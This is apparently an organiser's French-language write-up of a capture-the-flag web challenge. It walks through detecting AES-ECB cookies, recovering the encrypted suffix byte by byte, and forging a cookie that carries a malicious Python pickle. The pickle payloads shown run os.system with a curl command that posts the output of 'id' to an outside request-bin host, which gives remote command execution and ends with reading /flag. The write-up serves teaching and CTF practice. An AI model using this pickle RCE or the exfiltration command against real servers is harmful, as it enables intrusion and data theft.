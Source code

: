 # Writeup

## Première étape : AES ECB

On nous présente un site web, avec un système d'utilisateur permettant de voter
pour son poney favoris.

Il faut d'abord remarquer que lorsque l'on se connecte, on obtient un cookie en
hexadécimal. Ce cookie contient surement des informations relatif au compte. On
peut se douter qu'il contient l'id de l'utilisateur, au moins.

Il faut penser à créer plusieurs comptes avec des noms d'utilisateurs très
long pour voir que la taille de ce cookie augmente.

En se créant un compte avec l'username XXXXXXXXXXXXXXXXXXXX, on obtient le cookie:
146c0c4e3d2cf71e9adb8b49ade50078775d45d3555a4e2d881de94c90f0609528b57db930b567fc2ed798d26fbb2b42

Avec l'username XXXXXXXXXXXXXXXXXXXY (dernier caractère différent), on obtient:
0fe35a7a39913b66ab3bf3f7116d781a775d45d3555a4e2d881de94c90f06095ce5bc5e4c345a909c627c3f7ffbcbe30

On peut remarquer la répétition de 775d45d3555a4e2d881de94c90f06095, qui fait
exactement 16 octets. On se doute donc que le cookie est chiffré avec un mode
opératoire ECB: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Electronic_Codebook_.28ECB.29

Chaque block est chiffré indépendemment des autres, ce qui rend le chiffrement
très vulnérable. On se doute donc que 'X' * 16 est chiffré en
775d45d3555a4e2d881de94c90f06095.

Au final, on peut se douter que le chiffrement est de l'AES, mais on n'a pas
besoin de cette information pour résoudre le challenge. Il faut uniquement
remarquer que c'est de l'ECB.

## Seconde étape : récupérer le suffixe

On se doute donc que notre cookie est chiffré et contient notre username. Une
attaque courante de l'ECB permet de récupérer tout ce qui est chiffré après
notre username dans le cookie (le suffixe).

cookie = AES-ECB(préfixe + username + suffixe)

La technique est simple: on va d'abord faire en sorte que notre username termine
un block. Pour ça, on va chiffrer 'A' * i, avec i de 1 jusqu'à l'infini, jusqu'à
obtenir 2 fois le même block.

ATTENTION: Comme on doit toujours avoir un username unique, dans mon script,
je préfixe toujours mon username avec 4 caractères aléatoires.
ATTENTION: Si un challenger est bloqué, il faut lui conseiller cette technique.
S'il ajoute seulement 1 ou 2 caractères aléatoires, il va tomber sur des
usernames déjà pris par d'autres équipes (d'après mes tests) et perdre du temps
sans comprendre le problème.

Dans notre cas, on remarque qu'avec un username de longueur 50, on trouve 2
fois le même block:

12abb65223b044a069083688f1a5c380b989aa08f3e62b0cae9bc45cf89f54c05e98d92e0ac1e56557d63a3ef02cb7a65e98d92e0ac1e56557d63a3ef02cb7a6c3b30495a05eaf17b2ae129b6c002d95

Si on découpe en block de 16 octets (donc 32 caractères hexa):

'12abb65223b044a069083688f1a5c380', 'b989aa08f3e62b0cae9bc45cf89f54c0', '5e98d92e0ac1e56557d63a3ef02cb7a6', '5e98d92e0ac1e56557d63a3ef02cb7a6', 'c3b30495a05eaf17b2ae129b6c002d95'
                                                                         username[18:34],                    username[34:50]

Les blocks 3 et 4 sont identiques. On en déduit donc qu'avec un username de
longueur 50 - 2 * 16 = 18, on tombe à la fin d'un block.

On va donc s'enregistrer avec comme username = 'X' * 18 + 'X' * 15, de cette
façon on sait que le 3ième block correspondra a AES-ECB('X' * 15 + suffixe[0]).

On va tester tous les caractères possibles c, on s'enregistre avec
'X' * 18 + ('X' * 15 + c), et on s'arrête quand on retrouve le même block que
précédemment:

AES-ECB('X' * 15 + suffixe[0]) = AES-ECB('X' * 15 + c)

Il faut bien tenter avec toutes les valeurs de c entre 0 et 255.

On peut continuer avec la même technique pour obtenir tout le suffixe.

On obtient: suffixe = 'q\x01Ne.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

Utiliser ./solving_script.py --full pour trouver le même résultat

## Troisième étape: pickle

On se rend compte qu'il s'agit du format pickle: https://docs.python.org/2/library/pickle.html

Ce n'est pas forcément simple à voir, mais le titre du challenge est un indice.

Maintenant, on doit se douter que cookie = AES-ECB(PICKLE([user_id, username, None]))
En fait, le None correspond au vote, mais on s'en fiche.

On sait que pickle n'est pas safe et permet d'éxécuter du code arbitraire:
https://blog.nelhage.com/2011/03/exploiting-pickle/

Ici, on va utiliser le mode ECB pour forger son propre cookie.

Il suffit de s'enregistrer avec username = 'X' * 18 + pickle(16 octets) et de
récupérer le 3-ième block.

On va essayer d'éxécuter os.system('curl -X POST -d "$(id)" http://requestb.in/xxxx'), pour ça on utilise python3:

```
class A:
    def __reduce__(self):
        return (os.system, (('curl -X POST -d "$(id)" http://requestb.in/xxxx',),))

print(pickle.dumps(A()))
b'\x80\x03cposix\nsystem\nq\x00X\x1c\x00\x00\x00curl -X POST -d "$(id)" http://requestb.in/xxxxq\x01\x85q\x02\x85q\x03Rq\x04.'
```

Le problème, c'est que ce payload contient des octets > 128.
Le champ username attend de l'UTF-8, comme on peut se douter. Si l'on injecte
'\x85' par exemple, il va être encodé avec 2 octets en UTF8: '\xc2\x85', ce qui
casse notre pickle.

ATTENTION: Si un challenger est bloqué, il faut peut-être lui parler de ce soucis.

Le challenge est donc de construire un pickle ne contenant que des octets < 128.
Pour ça, il faut se renseigner sur le format de pickle:
https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version

Personnellement, j'ai regardé directement le code python: /usr/lib/python3.5/pickle.py

Au final, voici mon payload:

```
>>> inject = b'cposix\nsystem\n' # push os.system (load_global)
>>> inject += b'(' # push mark (load_mark)
>>> inject += b'X' + struct.pack('<I', len(cmd)) + cmd # push cmd (load_binunicode)
>>> inject += b't' # stack[k:] = [tuple(stack[k+1:])] (load_tuple)
>>> inject += b'R' # stack[-2](stack[-1]) (load_reduce)
```

On push os.system, puis un marker, puis notre commande, puis on utilise t pour
pop tout jusqu'au marker et construire un tuple, puis on appel reduce.

Ensuite, il suffit de jouer avec les blocks pour former le cookie souhaité. On
veut obtenir: AES(PICKLE([user_id, 'X' * 18, pickle, ...]))

On s'enregistre donc avec 'X' * 18 et on récupère les 2 premiers blocks.
Ensuite, on s'enregistre avec 'X' * 18 + pickle + padding et on récupère les
blocks qui correspondent à notre pickle (donc à partir du 3ième block).
On concatène tout ça, et on fait une requête HTTP avec ce cookie, et bim, le
serveur éxécute notre commande.

Ensuite, on a un shell. Il suffit de remplacer id par la commande voulue.
Pour terminer, on cat /flag
